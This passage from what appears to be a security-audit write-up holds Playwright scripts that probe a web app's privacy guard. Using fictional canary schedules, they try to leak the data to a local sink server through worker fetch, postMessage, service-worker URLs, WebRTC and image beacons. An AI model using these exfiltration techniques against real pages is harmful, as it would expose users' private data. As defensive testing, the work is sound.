import { chromium } from 'file:///C:/Users/simip/Projects/austin-3d-explorer/.claude/worktrees/wf_ff5b28e1-26f-3/scripts/verify/node_modules/playwright-core/index.mjs';
import { launch } from 'file:///C:/Users/simip/Projects/austin-3d-explorer/.claude/worktrees/wf_ff5b28e1-26f-3/scripts/verify/chrome.mjs';

const BASE = process.env.VERIFY_URL || 'http://127.0.0.1:8951';
const SINK_PORT = Number(process.env.SINK_PORT || 8962);

let sinkBytes = [];
const sink = net.createServer((sock) => {
  sock.on('data', (b) => sinkBytes.push(b));
  sock.on('error', () => {});
  setTimeout(() => {
    try {
      sock.write('HTTP/1.1 204 No Content\r\nAccess-Control-Allow-Origin: *\r\nContent-Length: 0\r\nConnection: close\r\n\r\n');
      sock.end();
    } catch (e) {}
  }, 60);
});
await new Promise((r) => sink.listen(SINK_PORT, '127.0.0.1', r));
const sinkText = () => Buffer.concat(sinkBytes).toString('latin1');
const sinkReset = () => { sinkBytes = []; };

// Round 7's own canaries. Not borrowed from round 5 or round 6.
const C = {
  title: 'Palaeobotanical Ensemble Studio',
  instructor: 'Prof. Isolde Marchbanks',
  room: 'BUR 0.220',
};

const browser = await launch(chromium, { maxMs: 600000 });
const ctx = await browser.newContext({ viewport: { width: 1280, height: 800 } });
const page = await ctx.newPage();
page.on('pageerror', (e) => console.log('PAGEERROR: ' + e.message));

await page.goto(BASE + '/index.html?walk=1&drift=0', { waitUntil: 'domcontentloaded' });
await page.evaluate(() => { try { window.cancelGraphicsAutoDetect && window.cancelGraphicsAutoDetect(); } catch (e) {} });
await page.waitForFunction(() => window.__map && window.__map.isStyleLoaded && window.__map.isStyleLoaded(), null, { timeout: 180000 });
await page.waitForTimeout(9000);

const saved = await page.evaluate((c) => window.WAYFIND.store.save({
  term: 'Fall 2026', tz: 'America/Chicago',
  sources: [{ kind: 'ut-registration' }],
  classes: [{ code: 'BUR', room: '0.220', title: c.title, instructor: c.instructor,
              days: ['M', 'W'], startMin: 540, endMin: 600 }],
}), C);
console.log('save: ' + JSON.stringify(saved));
const DISARM = process.argv.includes('--disarm');
console.log('armed: ' + await page.evaluate((d) =>
  d ? window.WAYFIND.store.guard.__disarmForAudit() : window.WAYFIND.store.guard.arm(), DISARM));

// ── the worker: decodes ANY string it can find, however buried, and dials out
//    with its own fetch. Same second half as the round-5 break. ──────────────
const WORKER_SRC = `
self.onmessage = (e) => {
  const found = [];
  const seen = new Set();
  const grab = (x, d) => {
    if (d > 8 || x == null || found.length) return;
    if (typeof x === 'string') { found.push(x); return; }
    if (typeof x !== 'object') return;
    if (seen.has(x)) return; seen.add(x);
    if (x instanceof ArrayBuffer) { found.push(new TextDecoder('utf-8').decode(new Uint8Array(x))); return; }
    if (ArrayBuffer.isView(x)) {
      const u8 = new Uint8Array(x.buffer, x.byteOffset, x.byteLength);
      found.push(new TextDecoder('utf-16le').decode(u8));
      found.push(new TextDecoder('utf-8').decode(u8));
      return;
    }
    if (x instanceof Map) { for (const p of x) { grab(p[0], d+1); grab(p[1], d+1); } }
    if (x instanceof Set) { for (const v of x) grab(v, d+1); }
    for (const k in x) grab(x[k], d + 1);
  };
  grab(e.data, 0);
  const text = found.join(' | ');
  fetch('http://127.0.0.1:__SINK__/leak', { method: 'POST', body: text })
    .then(r => self.postMessage({ text: text.slice(0, 200), sent: r.status }))
    .catch(err => self.postMessage({ text: text.slice(0, 200), sent: 'err:' + err.message }));
};`.replace('__SINK__', String(SINK_PORT));

await page.evaluate((src) => {
  window.__mk = () => {
    const url = URL.createObjectURL(new Blob([src], { type: 'text/javascript' }));
    const w = new Worker(url);
    w.__last = new Promise((res) => { w.onmessage = (ev) => res(ev.data); });
    return w;
  };
}, WORKER_SRC);

/**
 * Each shape is a factory body evaluated in the page. Returns the payload to
 * postMessage. `clone` is measured separately with structuredClone(), so a
 * miss in the walk that the platform does not actually carry is not counted
 * as a leak.
 */
const SHAPES = {
  // -- the control: round 5's break, which round 6 closed -------------------
  arrayBufferTransfer: `(c) => ({ tile: 'x', payload: new TextEncoder().encode(c.title).buffer })`,
  plainString:         `(c) => ({ t: c.title })`,

  // -- "a node kind the walk thinks it reads fully" ------------------------
  arrayExtraProp:      `(c) => { const a = [1,2,3]; a.note = c.title; return { a }; }`,
  arrayExtraPropTop:   `(c) => { const a = [1,2,3]; a.note = c.title; return a; }`,
  arraySubclassProp:   `(c) => { class A extends Array {}; const a = A.from([1,2]); a.note = c.title; return { a }; }`,
  arrayHoleProp:       `(c) => { const a = new Array(3); a.meta = c.instructor; return { a }; }`,
  // THE SHAPE THAT KILLS THE OBVIOUS OPTIMISATION. `Object.keys(a).length !==
  // a.length` looks like a cheap "does this array have extras" test; here the
  // hole and the extra cancel out — length 3, keys ['0','1','note'] — so the
  // count test says "no extras" and the canary rides through. Kept as a probe
  // so nobody reintroduces that test as a speed-up.
  arrayHoleAndExtra:   `(c) => { const a = new Array(3); a[0]=1; a[1]=2; a.note = c.title; return { a }; }`,
  mapExtraProp:        `(c) => { const m = new Map([['k','v']]); m.note = c.title; return { m }; }`,
  setExtraProp:        `(c) => { const s = new Set(['v']); s.note = c.title; return { s }; }`,
  dateExtraProp:       `(c) => { const d = new Date(); d.note = c.title; return { d }; }`,
  regexpExtraProp:     `(c) => { const r = /abc/g; r.note = c.title; return { r }; }`,
  errorExtraProp:      `(c) => { const e = new Error('boom'); e.note = c.title; return { e }; }`,
  typedArrayExtraProp: `(c) => { const u = new Uint8Array([1,2,3,4]); u.note = c.title; return { u }; }`,
  stringWrapperProp:   `(c) => { const s = new String('safe'); s.note = c.title; return { s }; }`,
  numberWrapperProp:   `(c) => { const n = new Number(1); n.note = c.title; return { n }; }`,
  boolWrapperProp:     `(c) => { const b = new Boolean(true); b.note = c.title; return { b }; }`,

  // -- encodings the byte scanner may or may not reach ---------------------
  utf16leBuffer:       `(c) => { const s = c.title; const u = new Uint16Array(s.length); for (let i=0;i<s.length;i++) u[i]=s.charCodeAt(i); return { p: u.buffer }; }`,
  nestedInArrayProp:   `(c) => { const a = []; a.deep = { x: [ { y: c.room } ] }; return { a }; }`,
};

const probeShape = (name, body) => page.evaluate(async ([n, b, c]) => {
  const g = window.WAYFIND.store.guard;
  const make = new Function('c', 'return (' + b + ')(c)');
  // 1. does the platform actually carry the canary across a structured clone?
  let cloneCarries = null, cloneErr = null;
  try {
    const cl = structuredClone(make(c));
    const hay = [];
    const seen = new Set();
    const walk = (x, d) => {
      if (d > 8 || x == null) return;
      if (typeof x === 'string') { hay.push(x); return; }
      if (typeof x !== 'object') return;
      if (seen.has(x)) return; seen.add(x);
      if (x instanceof ArrayBuffer) { hay.push(new TextDecoder('utf-8').decode(new Uint8Array(x))); hay.push(new TextDecoder('utf-16le').decode(new Uint8Array(x))); return; }
      if (ArrayBuffer.isView(x)) { const u8 = new Uint8Array(x.buffer, x.byteOffset, x.byteLength); hay.push(new TextDecoder('utf-8').decode(u8)); hay.push(new TextDecoder('utf-16le').decode(u8)); return; }
      if (x instanceof Map) { for (const p of x) { walk(p[0], d+1); walk(p[1], d+1); } }
      if (x instanceof Set) { for (const v of x) walk(v, d+1); }
      for (const k in x) walk(x[k], d + 1);
    };
    walk(cl, 0);
    const all = hay.join(' | ');
    cloneCarries = all.indexOf(c.title) !== -1 || all.indexOf(c.instructor) !== -1 || all.indexOf(c.room) !== -1;
  } catch (e) { cloneErr = String(e && e.message || e); }

  // 2. does the armed guard refuse a postMessage of it?
  const before = g.state();
  let threw = null;
  const w = window.__mk();
  try { w.postMessage(make(c)); }
  catch (e) { threw = String(e && e.message || e); }
  let got = null;
  if (!threw) { got = await Promise.race([w.__last, new Promise(r => setTimeout(() => r({ timeout: true }), 3000))]); }
  try { w.terminate(); } catch (e) {}
  const after = g.state();
  return {
    name: n, cloneCarries, cloneErr,
    blockedDelta: after.blocked - before.blocked,
    opaqueDelta: after.opaqueWorkerLeaves - before.opaqueWorkerLeaves,
    truncDelta: after.truncatedScans - before.truncatedScans,
    threw: threw ? threw.slice(0, 90) : null,
    workerSaw: got && got.text ? got.text.slice(0, 120) : null,
    workerSent: got && got.sent,
  };
}, [name, body, C]);

console.log('\n== SHAPE MATRIX (guard ARMED) ==');
const shapeRows = [];
for (const [name, body] of Object.entries(SHAPES)) {
  sinkReset();
  const r = await probeShape(name, body);
  await page.waitForTimeout(200);
  const st = sinkText();
  r.sinkHasCanary = st.indexOf(C.title) !== -1 || st.indexOf(C.instructor) !== -1 || st.indexOf(C.room) !== -1;
  r.leak = !!(r.cloneCarries && r.blockedDelta === 0);
  shapeRows.push(r);
  console.log(
    (r.leak ? 'LEAK  ' : (r.cloneCarries ? 'ok    ' : 'n/a   ')) +
    name.padEnd(22) +
    ' clone=' + String(r.cloneCarries).padEnd(5) +
    ' blocked=' + String(r.blockedDelta) +
    ' opaque=' + String(r.opaqueDelta) +
    ' sink=' + String(r.sinkHasCanary) +
    (r.threw ? '  threw' : '') +
    (r.workerSaw && (r.workerSaw.indexOf(C.title) !== -1 || r.workerSaw.indexOf(C.instructor) !== -1 || r.workerSaw.indexOf(C.room) !== -1) ? '  WORKER-SAW-IT' : '')
  );
}

// ── channels: doors that never touch Worker.prototype.postMessage ──────────
console.log('\n== CHANNEL MATRIX (guard ARMED) ==');
const CHANNELS = {
  windowPostMessage: `async (c, sink) => {
     let got = null;
     const h = (e) => { if (typeof e.data === 'string' && e.data.indexOf(c.title) !== -1) got = 'received'; };
     window.addEventListener('message', h);
     window.postMessage({ payload: c.title }, '*');
     await new Promise(r => setTimeout(r, 200));
     window.removeEventListener('message', h);
     return got || 'sent-no-throw';
   }`,
  iframePostMessage: `async (c) => {
     const f = document.createElement('iframe');
     f.src = 'about:blank'; f.style.display = 'none';
     document.body.appendChild(f);
     await new Promise(r => setTimeout(r, 120));
     f.contentWindow.postMessage({ payload: c.title }, '*');
     f.remove();
     return 'sent-no-throw';
   }`,
  serviceWorkerProtoExists: `(c) => typeof ServiceWorker !== 'undefined' && !!(ServiceWorker.prototype && ServiceWorker.prototype.postMessage)`,
  swRegisterUrl: `async (c) => {
     try { await navigator.serviceWorker.register('/collect?t=' + encodeURIComponent(c.title)); return 'registered'; }
     catch (e) { return 'err:' + String(e.message).slice(0, 60); }
   }`,
  rtcDataChannelSend: `async (c, sink) => {
     if (typeof RTCPeerConnection === 'undefined') return 'no-rtc';
     const pc = new RTCPeerConnection();
     const dc = pc.createDataChannel('x');
     let threw = null;
     try { dc.send(c.title); } catch (e) { threw = String(e.message).slice(0, 60); }
     pc.close();
     return threw || 'send-no-throw';
   }`,
  fetchUtf16Body: `async (c, sink) => {
     const s = c.title; const u = new Uint16Array(s.length);
     for (let i=0;i<s.length;i++) u[i]=s.charCodeAt(i);
     try { const r = await fetch('http://127.0.0.1:' + sink + '/u16', { method:'POST', body: u.buffer, mode:'cors' }); return 'sent:' + r.status; }
     catch (e) { return 'err:' + String(e.message).slice(0, 70); }
   }`,
  fetchUtf8Body: `async (c, sink) => {
     try { const r = await fetch('http://127.0.0.1:' + sink + '/u8', { method:'POST', body: new TextEncoder().encode(c.title), mode:'cors' }); return 'sent:' + r.status; }
     catch (e) { return 'err:' + String(e.message).slice(0, 70); }
   }`,
  imgSrc: `async (c, sink) => {
     const i = new Image();
     i.src = 'http://127.0.0.1:' + sink + '/img?t=' + encodeURIComponent(c.title);
     await new Promise(r => setTimeout(r, 400));
     return 'issued';
   }`,
};

const channelRows = [];
for (const [name, body] of Object.entries(CHANNELS)) {
  sinkReset();
  const r = await page.evaluate(async ([n, b, c, sp]) => {
    const g = window.WAYFIND.store.guard;
    const before = g.state();
    let ret = null, threw = null;
    try { ret = await (new Function('c', 'sink', 'return (' + b + ')(c, sink)'))(c, sp); }
    catch (e) { threw = String(e && e.message || e).slice(0, 100); }
    const after = g.state();
    return { name: n, ret, threw,
             blockedDelta: after.blocked - before.blocked,
             checkedDelta: after.checked - before.checked };
  }, [name, body, C, SINK_PORT]);
  await page.waitForTimeout(400);
  const st = sinkText();
  r.sinkHasCanary = st.indexOf(C.title) !== -1 || st.indexOf(encodeURIComponent(C.title)) !== -1;
  // utf16 lands on the wire as interleaved NULs; look for that too
  r.sinkHasUtf16 = st.replace(/\u0000/g, '').indexOf(C.title) !== -1;
  channelRows.push(r);
  console.log(
    ((r.sinkHasCanary || r.sinkHasUtf16) ? 'ON-WIRE ' : '        ') +
    name.padEnd(26) +
    ' blocked=' + String(r.blockedDelta).padEnd(3) +
    ' checked=' + String(r.checkedDelta).padEnd(3) +
    ' ret=' + JSON.stringify(r.ret) +
    (r.threw ? ' threw=' + r.threw : '')
  );
}

console.log('\n== FINAL STATE ==');
console.log(JSON.stringify(await page.evaluate(() => window.WAYFIND.store.guard.state()), null, 1));

await browser.close();
sink.close();

const leaks = shapeRows.filter(r => r.leak).map(r => r.name);
const wire = channelRows.filter(r => r.sinkHasCanary || r.sinkHasUtf16).map(r => r.name);
console.log('\nSHAPE LEAKS: ' + (leaks.length ? leaks.join(', ') : 'none'));
console.log('CHANNELS ON THE WIRE: ' + (wire.length ? wire.join(', ') : 'none'));
process.exit(0);
```

### 11e. `r7-micro.mjs` — the isolated cost of the array change

The real-drive A/B could not answer it: tile traffic varied 5,949–6,803 messages
and 116–127 MB between reps, and the spreads overlapped. This pins the payload
and varies only the walk.

```js
/**
 * r7-micro.mjs <label> — isolate the cost of the array-branch change.
 *
 * The real-drive A/B could not answer it: tile traffic varied 5,949–6,803
 * messages and 116–127 MB between reps, and the spreads overlapped, which per
 * scripts/verify/README.md means there is no result. So this pins the payload
 * and varies only the walk. Payload shapes chosen to be the ones that can
 * actually hurt: a very large flat numeric array (MapLibre geometry), a deep
 * nest of small arrays (a style/layer tree), and a binary leaf beside them.
 *
 * Minimum of interleaved reps, in-page timing, never wall clock.
 */
import { chromium } from 'file:///C:/Users/simip/Projects/austin-3d-explorer/.claude/worktrees/wf_ff5b28e1-26f-3/scripts/verify/node_modules/playwright-core/index.mjs';
import { launch } from 'file:///C:/Users/simip/Projects/austin-3d-explorer/.claude/worktrees/wf_ff5b28e1-26f-3/scripts/verify/chrome.mjs';

const BASE = process.env.VERIFY_URL || 'http://127.0.0.1:8951';
const label = process.argv[2] || 'run';

const browser = await launch(chromium, { maxMs: 420000 });
const ctx = await browser.newContext({ viewport: { width: 1280, height: 800 } });
const page = await ctx.newPage();
await page.goto(BASE + '/index.html?walk=1&drift=0', { waitUntil: 'domcontentloaded' });
await page.evaluate(() => { try { window.cancelGraphicsAutoDetect && window.cancelGraphicsAutoDetect(); } catch (e) {} });
await page.waitForFunction(() => window.__map && window.__map.isStyleLoaded && window.__map.isStyleLoaded(), null, { timeout: 180000 });
await page.waitForTimeout(7000);

const out = await page.evaluate(async () => {
  const SCHED = {
    term: 'Fall 2026', sources: [{ kind: 'ut-registration' }],
    classes: [{ code: 'BUR', room: '0.220', title: 'Palaeobotanical Ensemble Studio',
                instructor: 'Prof. Isolde Marchbanks', days: ['M'], startMin: 540, endMin: 600 }],
  };
  const W = new Worker(URL.createObjectURL(new Blob(['self.onmessage=()=>{}'], { type: 'text/javascript' })));

  // A MapLibre-shaped geometry array: 600k flat numbers.
  const geom = { type: 'geometry', v: new Array(600000).fill(0).map((_, i) => i) };
  // A layer/style-shaped tree: many small arrays inside objects.
  const tree = { layers: [] };
  for (let i = 0; i < 400; i++) {
    tree.layers.push({ id: 'l' + i, filter: ['all', ['==', 'class', 'x' + i], ['>', 'h', i]],
                       stops: [[10, i], [14, i * 2], [18, i * 3]] });
  }
  // A tile-shaped message: binary leaf plus a modest array of features.
  const bin = new Uint8Array(4096);
  const tile = { id: 'z16/1/2', buffer: bin,
                 features: new Array(300).fill(0).map((_, i) => ({ i, g: [i, i + 1, i + 2, i + 3] })) };

  const run = (payload, reps, iters) => {
    const t = [];
    for (let r = 0; r < reps; r++) {
      const a = performance.now();
      for (let i = 0; i < iters; i++) { try { W.postMessage(payload); } catch (e) {} }
      t.push(performance.now() - a);
    }
    return Math.round(Math.min(...t) * 10) / 10;
  };
  const suite = () => ({
    geom600k_x5: run(geom, 3, 5),
    styleTree_x300: run(tree, 3, 300),
    tileMsg_x2000: run(tile, 3, 2000),
  });

  window.WAYFIND.store.clear();
  const off = suite();
  window.WAYFIND.store.save(SCHED);
  window.WAYFIND.store.guard.arm();
  const on = suite();
  window.WAYFIND.store.clear();
  const off2 = suite();
  W.terminate();
  return { guardOff: off, guardOn: on, guardOffAgain: off2 };
});

console.log(label + ' ' + JSON.stringify(out));
await browser.close();
process.exit(0);
```

### 11f. `r7-map-cost.mjs` — the map still draws, and what the guard costs on it

The timer is installed AFTER the guard, so the interval it measures includes the
walk. `--shot` takes the frame at `shots/si/privacy/r7-map-guarded.jpg`.

```js
/**
 * r7-map-cost.mjs <label> [--shot <path>] [--nosched]
 *
 * Two questions about the round-7 array fix, on the real city:
 *   1. does the map still draw with the guard armed and a schedule stored?
 *   2. what does walking an array by own-enumerable-property instead of by
 *      index cost on MapLibre's real tile path?
 *
 * (2) is measured INSIDE the page, as time spent in `Worker.prototype.
 * postMessage` across an identical scripted camera drive — never wall clock,
 * which on this suite measures the machine. The timer is installed AFTER the
 * guard, so `pm` is the guarded function and the interval includes the walk.
 * One reading is not a result: the caller interleaves labels and takes the
 * minimum (scripts/verify/README.md).
 */
import { chromium } from 'file:///C:/Users/simip/Projects/austin-3d-explorer/.claude/worktrees/wf_ff5b28e1-26f-3/scripts/verify/node_modules/playwright-core/index.mjs';
import { launch } from 'file:///C:/Users/simip/Projects/austin-3d-explorer/.claude/worktrees/wf_ff5b28e1-26f-3/scripts/verify/chrome.mjs';

const BASE = process.env.VERIFY_URL || 'http://127.0.0.1:8951';
const label = process.argv[2] || 'run';
const shotAt = process.argv.includes('--shot') ? process.argv[process.argv.indexOf('--shot') + 1] : null;
const noSched = process.argv.includes('--nosched');

const C = {
  title: 'Palaeobotanical Ensemble Studio',
  instructor: 'Prof. Isolde Marchbanks',
};

const browser = await launch(chromium, { maxMs: 600000 });
const ctx = await browser.newContext({ viewport: { width: 1280, height: 800 } });
const page = await ctx.newPage();
page.on('pageerror', (e) => console.log('PAGEERROR: ' + e.message));

await page.goto(BASE + '/index.html?walk=1&drift=0', { waitUntil: 'domcontentloaded' });
await page.evaluate(() => { try { window.cancelGraphicsAutoDetect && window.cancelGraphicsAutoDetect(); } catch (e) {} });
await page.waitForFunction(() => window.__map && window.__map.isStyleLoaded && window.__map.isStyleLoaded(), null, { timeout: 180000 });
await page.waitForTimeout(8000);

// store (or deliberately do not store) a schedule, then arm and start timing
await page.evaluate(([c, none]) => {
  if (none) { window.WAYFIND.store.clear(); }
  else {
    window.WAYFIND.store.save({
      term: 'Fall 2026', tz: 'America/Chicago',
      sources: [{ kind: 'ut-registration' }],
      classes: [{ code: 'BUR', room: '0.220', title: c.title, instructor: c.instructor,
                  days: ['M', 'W'], startMin: 540, endMin: 600 }],
    });
  }
  window.WAYFIND.store.guard.arm();
  window.__gt = 0; window.__gn = 0;
  const pm = Worker.prototype.postMessage;      // already the guarded one
  Worker.prototype.postMessage = function () {
    const a = performance.now();
    try { return pm.apply(this, arguments); }
    finally { window.__gt += performance.now() - a; window.__gn++; }
  };
}, [C, noSched]);

// ── the drive. Identical every rep: no key held, no random content. ────────
const LEGS = [
  { center: [-97.7395, 30.2849], zoom: 15.2, pitch: 55, bearing: 20 },
  { center: [-97.7370, 30.2860], zoom: 17.0, pitch: 62, bearing: 95 },
  { center: [-97.7420, 30.2830], zoom: 18.2, pitch: 70, bearing: 190 },
  { center: [-97.7345, 30.2895], zoom: 16.0, pitch: 45, bearing: 300 },
  { center: [-97.7400, 30.2865], zoom: 18.6, pitch: 74, bearing: 15 },
  { center: [-97.7380, 30.2840], zoom: 14.5, pitch: 40, bearing: 120 },
];
for (const leg of LEGS) {
  await page.evaluate((l) => { window.__map.jumpTo(l); }, leg);
  await page.waitForTimeout(2600);
}
await page.waitForTimeout(4000);

const out = await page.evaluate(() => {
  const s = window.WAYFIND.store.guard.state();
  const m = window.__map;
  return {
    guardMs: Math.round(window.__gt), guardCalls: window.__gn,
    watched: s.watched, armed: s.armed,
    blocked: s.blocked, opaqueWorkerLeaves: s.opaqueWorkerLeaves,
    truncatedScans: s.truncatedScans, scanThrows: s.scanThrows,
    inspectFailures: s.inspectFailures,
    binaryLeaves: s.binaryLeaves, binaryMB: +(s.binaryBytes / 1048576).toFixed(1),
    frameChecked: s.frameChecked, swChecked: s.swChecked, rtcChecked: s.rtcChecked,
    bodyBytesScanned: s.bodyBytesScanned, portChecked: s.portChecked,
    styleLoaded: m.isStyleLoaded(), tilesLoaded: m.areTilesLoaded(),
    buildings: (() => { try { return m.querySourceFeatures('composite', { sourceLayer: 'building' }).length; } catch (e) { return -1; } })(),
    layers: m.getStyle().layers.length,
  };
});

if (shotAt) {
  // README: settle, screenshot twice, trust the second.
  await page.evaluate((l) => { window.__map.jumpTo(l); }, { center: [-97.7396, 30.2862], zoom: 16.6, pitch: 62, bearing: 28 });
  await page.waitForTimeout(6000);
  await page.screenshot({ path: shotAt, type: 'jpeg', quality: 80 });
  await page.waitForTimeout(1500);
  await page.screenshot({ path: shotAt, type: 'jpeg', quality: 80 });
}

console.log(label + ' ' + JSON.stringify(out));
await browser.close();
process.exit(0);
```

### 11g. `r8-holes.mjs` — the round-8 leak proof

Same instrument as round 7 and the same two independent measurements per shape
(`clone` = does the platform actually carry the canary, `guard` = does an armed
guard refuse it), pointed at a different question: not *what shape is
unhandled* but *which doors is each capability wired to*. Run with `--disarm`
for the negative control — disarmed, all fourteen shapes and all six channels
put the canary on the socket.

```js
/**
 * r8-holes.mjs — round 8's adversarial pass, aimed at ONE question.
 *
 * Rounds 4, 5, 6 and 7 each found a hole of the same family: a check that
 * exists, is correct, and is wired to ONE of the two doors. Round 6 taught the
 * URL/body scanner to retry percent-decoded, and left the worker walk on the
 * raw scanner. Round 7 taught the network body scanner to read bytes, and had
 * to go find the door round 6 had not wired.
 *
 * So this round does not ask "what shape is unhandled". It asks, for every
 * capability the guard has, WHICH DOORS IT IS WIRED TO, and fires the same
 * canary at every door in both encodings. Plus the one class of egress nothing
 * in §12 has ever inspected: request HEADERS.
 *
 * TWO INDEPENDENT MEASUREMENTS PER SHAPE, as in r7-holes.mjs:
 *   clone : does `structuredClone()` actually carry the canary?
 *   guard : does an armed guard refuse it?
 * `clone:true, guard:pass` is a real, silent bypass. Run with `--disarm` for
 * the negative control that makes the armed column mean anything.
 */
import net from 'node:net';
import { chromium } from 'file:///C:/Users/simip/Projects/austin-3d-explorer/.claude/worktrees/wf_ff5b28e1-26f-5/scripts/verify/node_modules/playwright-core/index.mjs';
import { launch } from 'file:///C:/Users/simip/Projects/austin-3d-explorer/.claude/worktrees/wf_ff5b28e1-26f-5/scripts/verify/chrome.mjs';

const BASE = process.env.VERIFY_URL || 'http://127.0.0.1:8951';
const SINK_PORT = Number(process.env.SINK_PORT || 8963);

let sinkBytes = [];
const sink = net.createServer((sock) => {
  sock.on('data', (b) => sinkBytes.push(b));
  sock.on('error', () => {});
  setTimeout(() => {
    try {
      sock.write('HTTP/1.1 204 No Content\r\n' +
        'Access-Control-Allow-Origin: *\r\n' +
        'Access-Control-Allow-Headers: *\r\n' +
        'Access-Control-Allow-Methods: *\r\n' +
        'Content-Length: 0\r\nConnection: close\r\n\r\n');
      sock.end();
    } catch (e) {}
  }, 60);
});
await new Promise((r) => sink.listen(SINK_PORT, '127.0.0.1', r));
const sinkText = () => Buffer.concat(sinkBytes).toString('latin1');
const sinkReset = () => { sinkBytes = []; };

// Round 8's own canaries. Not borrowed from any previous round.
const C = {
  title: 'Thaumaturgical Marimba Rhetoric',
  instructor: 'Prof. Ottoline Quennevire',
  room: 'RLP 0.130',
};

const browser = await launch(chromium, { maxMs: 900000 });
const ctx = await browser.newContext({ viewport: { width: 1280, height: 800 } });
const page = await ctx.newPage();
page.on('pageerror', (e) => console.log('PAGEERROR: ' + e.message));

await page.goto(BASE + '/index.html?walk=1&drift=0', { waitUntil: 'domcontentloaded' });
await page.evaluate(() => { try { window.cancelGraphicsAutoDetect && window.cancelGraphicsAutoDetect(); } catch (e) {} });
await page.waitForFunction(() => window.__map && window.__map.isStyleLoaded && window.__map.isStyleLoaded(), null, { timeout: 180000 });
await page.waitForTimeout(9000);

const saved = await page.evaluate((c) => window.WAYFIND.store.save({
  term: 'Fall 2026', tz: 'America/Chicago',
  sources: [{ kind: 'ut-registration' }],
  classes: [{ code: 'RLP', room: '0.130', title: c.title, instructor: c.instructor,
              days: ['T', 'TH'], startMin: 600, endMin: 660 }],
}), C);
console.log('save: ' + JSON.stringify(saved));
const DISARM = process.argv.includes('--disarm');
console.log('armed: ' + await page.evaluate((d) =>
  d ? window.WAYFIND.store.guard.__disarmForAudit() : window.WAYFIND.store.guard.arm(), DISARM));

// ── the worker: decodes anything it can find, INCLUDING percent-escapes, and
//    dials out with its own fetch. The decode step is the point: a receiver
//    that decodes is not exotic, it is what every receiver of an encoded
//    string does. ────────────────────────────────────────────────────────────
const WORKER_SRC = `
self.onmessage = (e) => {
  const found = [];
  const seen = new Set();
  const push = (s) => {
    if (typeof s !== 'string' || !s) return;
    found.push(s);
    try { found.push(decodeURIComponent(s)); } catch (err) {}
    try { found.push(decodeURIComponent(s.replace(/\\+/g, ' '))); } catch (err) {}
  };
  const grab = (x, d) => {
    if (d > 8 || x == null || found.length > 40) return;
    if (typeof x === 'string') { push(x); return; }
    if (typeof x !== 'object') return;
    if (seen.has(x)) return; seen.add(x);
    if (x instanceof ArrayBuffer) { push(new TextDecoder('utf-8').decode(new Uint8Array(x))); return; }
    if (ArrayBuffer.isView(x)) {
      const u8 = new Uint8Array(x.buffer, x.byteOffset, x.byteLength);
      push(new TextDecoder('utf-16le').decode(u8));
      push(new TextDecoder('utf-8').decode(u8));
      return;
    }
    if (x instanceof Map) { for (const p of x) { grab(p[0], d+1); grab(p[1], d+1); } }
    if (x instanceof Set) { for (const v of x) grab(v, d+1); }
    for (const k in x) grab(x[k], d + 1);
  };
  grab(e.data, 0);
  const text = found.join(' | ');
  fetch('http://127.0.0.1:__SINK__/leak', { method: 'POST', body: text })
    .then(r => self.postMessage({ text: text.slice(0, 300), sent: r.status }))
    .catch(err => self.postMessage({ text: text.slice(0, 300), sent: 'err:' + err.message }));
};`.replace('__SINK__', String(SINK_PORT));

await page.evaluate((src) => {
  window.__mk = () => {
    const url = URL.createObjectURL(new Blob([src], { type: 'text/javascript' }));
    const w = new Worker(url);
    w.__last = new Promise((res) => { w.onmessage = (ev) => res(ev.data); });
    return w;
  };
}, WORKER_SRC);

const SHAPES = {
  // -- controls: shapes round 7 closed, re-fired so a regression shows -------
  plainString:        `(c) => ({ t: c.title })`,
  arrayExtraProp:     `(c) => { const a = [1,2,3]; a.note = c.title; return { a }; }`,
  utf8Buffer:         `(c) => ({ p: new TextEncoder().encode(c.title).buffer })`,

  // -- THE ROUND-8 HYPOTHESIS: the encoded-string retry is wired to the
  //    network door only. `scanWalk`'s string leaf calls `scanForSchedule`,
  //    not `scanTextForSchedule`. -------------------------------------------
  pctEncodedString:   `(c) => ({ t: encodeURIComponent(c.title) })`,
  pctEncodedTop:      `(c) => encodeURIComponent(c.title)`,
  plusEncodedString:  `(c) => ({ t: c.title.replace(/ /g, '+') })`,
  qsEncodedString:    `(c) => ({ q: new URLSearchParams({ t: c.title }).toString() })`,
  pctEncodedInArray:  `(c) => [ encodeURIComponent(c.instructor) ]`,
  pctEncodedInMap:    `(c) => { const m = new Map(); m.set('k', encodeURIComponent(c.room)); return { m }; }`,
  pctEncodedUrlish:   `(c) => ({ url: '/collect?t=' + encodeURIComponent(c.title) })`,
  pctEncodedRegExp:   `(c) => ({ r: new RegExp(encodeURIComponent(c.title)) })`,
  pctEncodedError:    `(c) => ({ e: new Error(encodeURIComponent(c.title)) })`,
  pctEncodedWrapper:  `(c) => ({ s: new String(encodeURIComponent(c.title)) })`,

  // -- and the same question of the byte scanner: it reads UTF-8 and
  //    UTF-16LE. A percent-encoded string INSIDE a buffer is neither. --------
  pctEncodedBuffer:   `(c) => ({ p: new TextEncoder().encode(encodeURIComponent(c.title)).buffer })`,
};

const probeShape = (name, body) => page.evaluate(async ([n, b, c]) => {
  const g = window.WAYFIND.store.guard;
  const make = new Function('c', 'return (' + b + ')(c)');
  let cloneCarries = null, cloneErr = null;
  try {
    const cl = structuredClone(make(c));
    const hay = [];
    const seen = new Set();
    const push = (s) => {
      if (typeof s !== 'string' || !s) return;
      hay.push(s);
      try { hay.push(decodeURIComponent(s)); } catch (e) {}
      try { hay.push(decodeURIComponent(s.replace(/\+/g, ' '))); } catch (e) {}
    };
    const walk = (x, d) => {
      if (d > 8 || x == null) return;
      if (typeof x === 'string') { push(x); return; }
      if (typeof x !== 'object') return;
      if (seen.has(x)) return; seen.add(x);
      if (x instanceof ArrayBuffer) { push(new TextDecoder('utf-8').decode(new Uint8Array(x))); push(new TextDecoder('utf-16le').decode(new Uint8Array(x))); return; }
      if (ArrayBuffer.isView(x)) { const u8 = new Uint8Array(x.buffer, x.byteOffset, x.byteLength); push(new TextDecoder('utf-8').decode(u8)); push(new TextDecoder('utf-16le').decode(u8)); return; }
      if (x instanceof RegExp) { push(x.source); return; }
      if (x instanceof Error) { push(String(x.message)); return; }
      if (x instanceof String) { push(String(x)); return; }
      if (x instanceof Map) { for (const p of x) { walk(p[0], d+1); walk(p[1], d+1); } }
      if (x instanceof Set) { for (const v of x) walk(v, d+1); }
      for (const k in x) walk(x[k], d + 1);
    };
    walk(cl, 0);
    const all = hay.join(' | ');
    cloneCarries = all.indexOf(c.title) !== -1 || all.indexOf(c.instructor) !== -1 || all.indexOf(c.room) !== -1;
